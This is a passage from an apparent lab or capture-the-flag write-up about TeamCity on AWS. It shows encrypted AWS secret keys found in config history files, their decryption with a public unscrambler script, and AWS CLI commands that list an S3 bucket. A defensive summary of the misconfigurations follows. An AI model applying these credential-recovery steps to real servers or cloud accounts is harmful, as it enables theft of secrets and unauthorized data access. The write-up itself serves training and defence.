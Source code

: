 ```
system/pluginData/audit/configHistory/projects/project1/config.xml.3:        <param name="secure:aws.secret.access.key" value="zxxd<REDACTED>0d301b" />
system/pluginData/audit/configHistory/projects/project1/config.xml.4:        <param name="secure:awsSecretAccessKey" value="zxxd<REDACTED>0d301b" />
system/pluginData/audit/configHistory/projects/project1/config.xml.4:        <param name="secure:aws.secret.access.key" value="zxxd<REDACTED>0d301b" />
system/pluginData/audit/configHistory/projects/project1/config.xml.6:        <param name="secure:awsSecretAccessKey" value="zxxd<REDACTED>0d301b" />
system/pluginData/audit/configHistory/projects/project1/config.xml.6:        <param name="secure:aws.secret.access.key" value="zxxd<REDACTED>0d301b" />
system/pluginData/audit/configHistory/projects/project1/config.xml.7:        <param name="secure:awsSecretAccessKey" value="zxxd<REDACTED>0d301b" />
system/pluginData/audit/configHistory/projects/project1/config.xml.7:        <param name="secure:aws.secret.access.key" value="zxxd<REDACTED>0d301b" />

```

After downloading the decryption script, we get the AWS Secret Key. We can also use [teamcity-unscrambler script](https://github.com/0xE2/teamcity-unscrambler/)
```
└─$ python2.7 teamcity-secret-decrypt.py zxxd<REDACTED>0d301b
<REDACTED>
```

Use AWS Access Key that was displayed in the web console and the decrypted Secret Key to authenticate and get access the S3 bucket
```
└─$ aws sts get-caller-identity
{
    "UserId": "AIDA<REDACTED>SES",
    "Account": "427648302155",
    "Arn": "arn:aws:iam::427648302155:user/teamcity"
}
```
```
└─$ aws s3 ls huge-logistics-teamcity --recursive
2023-07-22 19:17:06          0 artifacts/
2023-07-25 04:49:10          0 flag/
2023-07-25 04:49:38         32 flag/flag.txt
2023-07-24 01:45:05          0 plugins/
2023-07-24 01:45:37   16785484 plugins/s3-artifact-storage.zip
2023-07-22 19:10:21          0 temp/
2023-07-24 01:47:03   19452074 temp/TeamCity_Backup_20230723_194627.zip
2023-07-24 01:50:21     756455 temp/teamcity_server_logs_2023-07-23.zip
```

# Defense
- Found exposed the password of the teamcity database user in the EC2 user data field. 
  - User data is base64-encoded and a we had permissions to access it. 
  - Also password reuse, which is a very common bad practice. 
    - This allowed us to gain access to the server locally as the unprivileged user teamcity.
  - User had read access to the TeamCity server log file. 
    - Any user that have this permission should be considered privileged, as they are able to login to the TeamCity server as the super user account. 
    - This super user account should ideally have been [disabled](https://www.jetbrains.com/help/teamcity/super-user.html) by specifying a property. 
    - The properties are stored in the `<TeamCity Data Directory>/config/internal.properties` file. 
    - This is a [Java properties](https://en.wikipedia.org/wiki/.properties) file that can be edited manually with each `<property_name>=<property_value>` on a separate line.
- Build agent was installed locally on the TeamCity server, which allowed us to execute commands in the context of root
  - Once on the server as root we could easily decrypt the TeamCity secrets. 
  - However it is possible to use a custom encryption key instead of the fixed key, which may slow an attacker down. 
